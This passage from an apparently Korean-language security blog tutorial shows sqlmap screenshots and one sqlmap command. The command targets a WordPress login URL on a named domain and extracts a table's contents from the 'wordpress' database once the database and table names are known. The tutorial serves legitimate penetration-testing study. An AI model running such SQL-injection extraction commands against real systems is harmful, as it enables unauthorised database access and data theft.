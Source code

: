   <img src="https://raw.githubusercontent.com/henrychoi7/henrychoi7.github.io/master/img/171002/sqlmap4.png" width="80%">
</p>

만약에 DB와 테이블 이름까지 파악했다면, `./sqlmap.py -u https://www.gachon.com/wp-login.php?id=1 --dbms=mysql --current-user -D wordpress -T sample` 이런 식으로 테이블 내 정보까지 추출할 수 있다.

<p style="text-align:center;">
  <img src="https://raw.githubusercontent.com/henrychoi7/henrychoi7.github.io/master/img/171002/sqlmap5.png" width="80%">
</p>
